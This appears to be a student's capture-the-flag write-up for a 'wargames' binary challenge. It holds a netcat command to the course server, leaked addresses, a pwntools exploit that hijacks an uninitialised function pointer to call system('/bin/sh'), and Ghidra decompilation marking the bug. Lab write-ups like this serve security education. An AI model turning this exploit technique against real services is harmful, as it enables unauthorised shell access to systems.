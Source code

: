 connect to port on ssh
```bash
nc cs4401shell.walls.ninja 39448
```

Code:
CPE 1704 TKS
System: 0x7ffff7a523a0

start of buf: 0x007fffffffdca0

start of load_chess: 0x007fffffffdeb0

start of play_chess: 0x007fffffffde80

## Solution:
```python
from pwn import *
import os

elf = ELF('./wargames')
context.binary=elf
context.arch = 'amd64'

debug_mode=True

offset = 503-8 #503 is the offset from the function pointer (we know because the cyclic is printed out in the loading) 503-8 is the offset

system = 0x7ffff7a523a0

bin_sh = 0x7ffff7b99e57

exploit_str = flat({offset:bin_sh}, system)

  
  

dbg = cyclic(1024, n=8)

# print(dbg)
# print(cyclic_find(b'aaaaaacn', n=8, endian='little'))
# dbg2 = flat({offset:0xdeadbeef})

p = remote('cs4401shell.walls.ninja', 39448)

  
# p = gdb.debug('./wargames', gdbscript = '''
# b *main
# shell tmux select-layout main-vertical
# shell tmux swap-pane -U
# b *input_code
# b *input_code+236
# b *load_chess
# b *play_chess
# ''')

p.sendline(b'y')
p.sendline(b'y')
p.sendline(b'CPE 1704 TKS') #enters the code
p.sendline(b'y' + exploit_str)

p.recv(numb=50)
p.interactive()
```

Decompiled code from Ghidra:

```c
void input_code(void)

{
  int iVar1;
  char buffer [16];
  char str [1024];
  int i;
  
  for (i = 0; i < 0x400; i = i + 1) {
    str[i] = '\0';
  }
  fgets(buffer,0x10,stdin);
  printf("You entered %s\n",buffer);
  iVar1 = strncmp(buffer,_code,0xc);
  if (iVar1 != 0) {
    type_string("Launch code incorrect...");
    sleep(1);
    type_string("sequence aborted!\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  type_string("Missiles launched...\n");
  sleep(1);
  type_string("How about a nice game of chess? [Y/n] ");

	//here is the bug
	//info isn't removed and 
  fgets(str,0x400,stdin); 
  if (((str[0] != 'Y') && (str[0] != 'y')) && (str[0] != '\n')) {
    done();
  }
  return;
}
```
`play_chess`
```c
void play_chess(char *str,int size)

{
  char *arg;
  _func_void_char_ptr *fun_ptr;
  
  snprintf(str,(long)size,"Loading (%p): ",fun_ptr);
  type_string(str);
  sleep(1);
  (*fun_ptr)(arg);
  return;
}
```
## Patching binary
include a libc.2.23 file and ld.2.23 file
